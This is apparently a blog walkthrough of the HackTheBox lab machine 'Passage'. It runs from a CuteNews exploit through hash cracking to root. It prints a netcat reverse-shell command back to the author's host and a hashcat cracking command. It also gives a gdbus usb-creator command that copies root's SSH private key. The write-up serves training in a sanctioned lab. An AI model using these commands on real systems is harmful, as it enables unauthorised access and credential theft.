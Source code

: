 ```yaml
---
layout: single
title:  Passage HackTheBox Walkthrough
date: 2022-7-25
classes: wide
header:
  teaser: 
tags:
  - HackTheBox
  - ctf
  - Linux
--- 
```


This box was made by my buddy @ChefByzen on Twitter, I know him from our Uni CTF team. Very cool box!

Let's get into it.
I started off by enumerating like usual with NMAP
```
# Nmap 7.80 scan initiated Sat Sep 26 16:38:13 2020 as: nmap -sCV -p- -vvv -A -T4 -oA passage 10.10.10.206
Nmap scan report for 10.10.10.206
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 17:eb:9e:23:ea:23:b6:b1:bc:c6:4f:db:98:d3:d4:a1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDVnCUEEK8NK4naCBGc9im6v6c67d5w/z/i72QIXW9JPJ6bv/rdc45FOdiOSovmWW6onhKbdUje+8NKX1LvHIiotFhc66Jih+AW8aeK6pIsywDxtoUwBcKcaPkVFIiFUZ3UWOsWMi+qYTFGg2DEi3OHHWSMSPzVTh+YIsCzkRCHwcecTBNipHK645LwdaBLESJBUieIwuIh8icoESGaNcirD/DkJjjQ3xKSc4nbMnD7D6C1tIgF9TGZadvQNqMgSmJJRFk/hVeA/PReo4Z+WrWTvPuFiTFr8RW+yY/nHWrG6LfldCUwpz0jj/kDFGUDYHLBEN7nsFZx4boP8+p52D8F
|   256 71:64:51:50:c3:7f:18:47:03:98:3e:5e:b8:10:19:fc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCdB2wKcMmurynbHuHifOk3OGwNcZ1/7kTJM67u+Cm/6np9tRhyFrjnhcsmydEtLwGiiY5+tUjr2qeTLsrgvzsY=
|   256 fd:56:2a:f8:d0:60:a7:f1:a0:a1:47:a4:38:d6:a8:a1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGRIhMr/zUartoStYphvYD6kVzr7TDo+gIQfS2WwhSBd
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Not much is open so I decided to check out the site
Immediately I see that they have fail2ban and another user kim switft

```
**Implemented Fail2Ban**
18 Jun 2020 By admin 0 Comments
Due to unusally large amounts of traffic, View & Comment
Phasellus tristique urna
12 Jun 2020 By Kim Swift 0 Comments
Sed felis pharetra, nec sodales diam sagittis. View & Comment 
```

So gobuster is out of the question to enumerate directories.
I set out to investigate the site manually by playing around and I saw that it is powered by cutenews
After searching around I came across two exploits for it. 
One was metasploit and the other someone had written a python script for after the box was released.
The author of the box says that the intended route is with metasploit.

In either case you get a shell as www-data, we can't get the flag just yet. We have to escalate privileges to get the user flag. 

![](/assets/images/PassageHTB/cutenews.png)

First order of business was making this a reverse shell cause I can't stand that default shell.
I ran nc -lnvp 9827 on my host kali machine and nc 10.10.**.** 9827 -e /bin/bash on the passage box

--------------------------

PRO TIP: RUN THESE FOR AN ENJOYABLE EXPERIENCE IN YOUR SHELL
```
python -c 'import pty;pty.spawn("/bin/bash");'
```
then
```
[CTRL-Z]
stty raw -echo;fg
[ENTER][ENTER]

source /etc/skel/.bashrc 
export TERM=screen-256color
```
END OF PRO TIP 

--------------------

At this point I got lost, that was until until I dig deeper and found /var/www/html/CuteNews/cdata.
In this directory I fell into a rabbithole of writing a python script to base64 decode the hashes inside of these many files
![](/assets/images/PassageHTB/base64.png)

For example, inside of one of those php files 
![](/assets/images/PassageHTB/1stphp.png)
has the first line as garbage and the second line being a base64 string. 
This script turned out to be for naught as the actual way to escalate privileges can be found inside the **Lines** file. 
![](/assets/images/PassageHTB/lines.png)
if you go through and decode them you come across one that says paul@passage.htb which is one of the two users I found when I was enumerating the home directory
![](/assets/images/PassageHTB/homedir.png)

Then we throw that hash we found into a hash analyzer and realize it's sha-256, well we could give it a shot cracking that hash to get his password.
![](/assets/images/PassageHTB/analyzer.png)

We could easily enough crack it with hashcat but this online service did it in less than a second.
![](/assets/images/PassageHTB/hashcrack.png)
If you want to take a more manual approach with hashcat yourself you could do it with 
```
hashcat -m 1400 paul.txt /usr/share/wordlists/rockyou.txt
```
at any rate you get atlanta1 as the password for paul
I enumerated as paul for a while until I eventually went into the .ssh dir and cated it all out,
I saw that nadav was in the authorized keys so while logged into paul I SSHd into nadav. 
![](/assets/images/PassageHTB/sshNadav.png)

Now out of all the privilege escalation i did for this box going from nadav to root was by far the hardest.
I always start out running a script that gives me a quick overview of the entire box very easily in case there's something i can spot out of place. In this case it didn't help all too much and I was left to exploring on my own

fail2ban, zeitgeist, and CUPS were the first processes that I investigated but I didn't come to any solution. I finally stumbled upon

```
/usr/bin/python3 /usr/share/usb-creator/usb-creator-helper
```
While looking at all the running processes. 
I don't remember having seen this before so I googled it and came across this article 
https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/
They describe how to exploit this to copy files to other 
```
gdbus call --system --dest com.ubuntu.USBCREATOR --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/pwn true
```
This copies the root rsa key to /tmp/pwn on my box. 
then we 
```
chmod 600 root_id_rsa 
ssh -i root_id_rsa root@10.10.10.206
```
And you can access root.txt
Thanks for reading!

